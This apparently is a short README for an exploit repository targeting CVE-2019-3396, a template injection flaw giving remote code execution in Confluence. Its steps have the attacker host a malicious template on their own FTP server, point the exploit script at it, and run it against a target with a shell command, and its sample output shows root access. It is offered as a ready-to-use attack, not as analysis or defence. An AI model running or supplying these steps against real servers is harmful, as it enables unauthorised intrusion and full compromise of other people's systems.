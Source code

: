 # CVE-2019-3396_EXP
CVE-2019-3396 confluence SSTI RCE

1、put the cmd.vm on your website (must use ftp or https ,http doesn't work )  
2、modify RCE_exp.py ，change the filename = 'ftp://1.1.1.1/cmd.vm'  （python -m pyftpdlib -p 21）  
3、python REC_exp.py http://test.wiki_test.cc:8080 "whoami"  
 
$ python REC_exp.py http://test.wiki_test.cc:8080 "id"  
uid=0(root) gid=0(root) groups=0(root)  
